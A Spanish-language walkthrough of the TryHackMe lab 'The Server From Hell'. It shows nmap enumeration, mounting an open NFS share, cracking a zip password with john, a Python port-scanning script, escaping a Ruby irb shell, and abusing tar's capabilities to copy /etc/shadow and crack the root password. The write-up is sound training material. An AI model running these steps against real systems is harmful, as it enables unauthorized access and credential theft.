








En esta maquina tendremos que encontrar el puerto correcto donde se tiene un servicio que nos permitirá explotar una vulnerabilidad para luego obtener un archivo `id_rsa` para iniciar sesión por `ssh` del cual se desconoce el puerto, para encontrar el puerto correcto realizaremos un script en Python el que automatizara el proceso de validar que en el dicho puerto se ejecutar el servicio `OPENSSH` 


- Link [The Server From Hell](https://tryhackme.com/room/theserverfromhell)

- Created by [DeadPackets](https://tryhackme.com/p/DeadPackets)

# Walkthrough
--- 

## Enumeración

Iniciamos escaneando los puertos abiertos  con la herramienta de `nmap` para luego escanear los servicios y versiones de cada uno de los puertos.

```php
❯ nmap -p- --open --min-rate 1000 -vvv -Pn -n 10.10.146.146 -oG allportsScan
```

Al realizar el escaneo  podemos ver que la mayoría de los puerto están abiertos por lo que analizar cada uno nos llevara un buen tiempo.


### Puerto 1337

En esta caso vamos a realizar un escaneo del puerto `1337`, porque nos brinda una pista de este puerto. 

```php
❯ nmap -p1337 -sC -sV -vvv -Pn 10.10.146.146 -oN servicesScan
```

Escaneando podemos ver un mensaje de nos indica escanear los 100 primeros puertos`Legend says he's hiding in the first 100 ports` 

```php
PORT     STATE SERVICE REASON  VERSION
1337/tcp open  waste?  syn-ack
| fingerprint-strings: 
|   NULL: 
|     Welcome traveller, to the beginning of your journey
|     begin, find the trollface
|     Legend says he's hiding in the first 100 ports
|_    printing the banners from the ports
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.94SVN%I=7%D=12/17%Time=657F80C7%P=x86_64-pc-linux-gnu%
SF:r(NULL,A7,"Welcome\x20traveller,\x20to\x20the\x20beginning\x20of\x20you
SF:r\x20journey\nTo\x20begin,\x20find\x20the\x20trollface\nLegend\x20says\
SF:x20he's\x20hiding\x20in\x20the\x20first\x20100\x20ports\nTry\x20printin
SF:g\x20the\x20banners\x20from\x20the\x20ports");
```

Escaneamos los 100 puertos 

```php
❯ nmap -p1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100 -sC -sV -Pn -vvv -n 10.10.146.146 -oN servicesScan
```

El resultado que tendremos será la siguiente

```php
PORT    STATE SERVICE      REASON  VERSION
1/tcp   open  tcpmux?      syn-ack
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
2/tcp   open  compressnet? syn-ack
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
3/tcp   open  compressnet? syn-ack
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
4/tcp   open  unknown      syn-ack
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
5/tcp   open  rje?         syn-ack
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0000000000000000000000000000000000000000000000000000000
6/tcp   open  unknown      syn-ack
| fingerprint-strings: 
|   NULL: 
|_    550 12345 0ffffffffffffffffffffffffffffffffffffffffffffffffffff00
.
.
.
```

Tenemos un numero que se repite en todos que es `550` y `12345`. Por lo que enumeraremos el dichos puertos.

### Puerto 12345

```php
❯ nmap -p12345 -sC -sV -Pn 10.10.146.146 -vvv
```

Se tiene un servicio `NFS` en el puerto `12345` que esto permite compartir sistemas de archivos completos entre sistemas, lo que facilita la colaboración y el intercambio de recursos en una red.

```php
PORT      STATE SERVICE REASON  VERSION
12345/tcp open  netbus? syn-ack
| fingerprint-strings: 
|   NULL: 
|     NFS shares are cool, especially when they are misconfigured
|_    It's on the standard port, no need for another scan
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port12345-TCP:V=7.94SVN%I=7%D=12/18%Time=657FF30F%P=x86_64-pc-linux-gnu
SF:%r(NULL,6F,"NFS\x20shares\x20are\x20cool,\x20especially\x20when\x20they
SF:\x20are\x20misconfigured\nIt's\x20on\x20the\x20standard\x20port,\x20no\
SF:x20need\x20for\x20another\x20scan");
```
## Explotación

### Showmount 

Enumerando con `showmount` podremos ver los directorios que se pueden realizar la montura en nuestra maquina atacante.



Para realizar la montura ejecutaremos los siguientes comandos:

```php
❯ mkdir Theserverfromhell
❯ sudo mount -t nfs 10.10.146.146:/home/nfs ./Theserverfromhell
```

Una vez ejecutados los comandos podremos enumerar el directorio y tendremos un archivo `backup.zip` que tendremos que copiarnos a nuestro directorio de trabajo.



```php
❯ cp backup.zip /home/b0ysie7e/seven/tryhackme/maquinas/Theserverfromhell/content
```



Al querer descomprimir observamos que nos pide una contraseña, contraseña que no sabemos. Para encontrar la contraseña tendremos que hacer uso de fuerza bruta, en este caso usaremos `zip2john` para obtener el hash para luego crackearla con `john`.

```php
❯ zip2john backup.zip > hash

❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zxcvbnm          (backup.zip)     
1g 0:00:00:00 DONE (2023-12-18 02:37) 7.142g/s 58514p/s 58514c/s 58514C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Luego de tener la contraseña podremos descomprimir el `.zip` proporcionando la contraseña. Al descomprimir el archivo tendremos un archivo `id_rsa` el cual podremos usar para ingresar por `ssh`.



Antes de autenticarnos por ssh tendremos que descubrir en que puerto esta el servicio de `ssh`, por lo que realizamos el siguiente script para automatizar el proceso. Agregue unas cositas que no son necesarias pero queda mas guapo 

```python
#!/usr/bin/env python3

import socket
import sys
from pwn import *
import signal
import os

def ctrl_C(signal,frame):
	print("[+] Saliendo...")
	sys.exit(0)
	signal.signal(signal.SIGINT,ctrl_C)

def ping(ip):
	r=os.system("ping -c 1 " + ip + " > " + os.devnull + " 2>&1")
	if r==0:
		return True
	else:
		return False

def scan_port(ip):
	for i in range(2500, 4500):
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip, i))
			p1.status("Puerto: %s" % (i))
			string = s.recv(1024).decode('utf-8')
			if 'OpenSSH' in string:
				print(f'[+] SSH Port open: {i}')
				#break
			else:
				pass
				#print(f'[-] Port{i} not SSH')
		except KeyboardInterrupt:
			sys.exit(0)
		except:
			pass
	s.close()

if __name__=='__main__':
	ip = '10.10.146.146'
	if (ping(ip)):
		#print("La ip es valida")
		p1=log.progress("Scan")
		scan_port(ip)
	else:
		print("La ip no esta activa")
```



Luego de ejecutar el script y probar algunos de los puertos obtendremos que el `3333` es el que tiene el servicio `ssh` por lo que nos autenticaremos con dicho puerto haciendo uso del archivo `id_rsa`.

## Escalada de privilegios
### Usuario: hades

```php
❯ ssh -i id_rsa hades@10.10.146.146 -p 3333
```

Ingresando por `ssh` tendremos un una terminal interactiva de ruby 


Para obtener una shell ejecutaremos ` exec "/bin/bash"` en la consola interactiva de ruby.

```php
 irb(main):001:0> exec "/bin/bash"
hades@hell:~$  whoami
hades
```

Luego de obtener una shell enumeraremos para escalar privilegios como root. Enumerando el sistema encontraremos algo interesante en las capabilities. 

```php
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

Para poder tener mas información de como explotar y entender te invito a leer el el post de [linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Para explotar el binario `/bin/tar` por capabilities haremos uso de `tar` para comprimir algún archivo privilegiado que en este caso será el `/etc/shadow` donde se tiene las credenciales  de cada usuario del sistema.

```php
hades@hell:/tmp$ tar cvf shadow.tar /etc/shadow
hades@hell:/tmp$ ls
shadow.tar 
hades@hell:/tmp$ tar -xvf shadow.tar 
etc/shadow
```

Luego descomprimiremos el archivo `shadow.tar` y obtendremos el archivo `/etc/shadow`

```php
hades@hell:/tmp$ cd etc/
hades@hell:/tmp/etc$ ls -la
total 12
drwxrwxr-x  2 hades hades 4096 Dec 22 04:10 .
drwxrwxrwt 10 root  root  4096 Dec 22 04:10 ..
-rw-r-----  1 hades hades 1134 Sep 15  2020 shadow
```

Al leer el archivo podemos ver que se tiene la credencial encriptada de root



Para obtener la credencial en formato texto haremos uso de la herramienta de `john` para crackearla

```php
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_root
```

### Usuario: root 

La credencial que obtendremos será `root : trustno1` . Luego ingresaremos para escalar nuestros privilegios a root y efectivamente la contraseña es valida.



¡VAMOS!
Happy Hacking :)
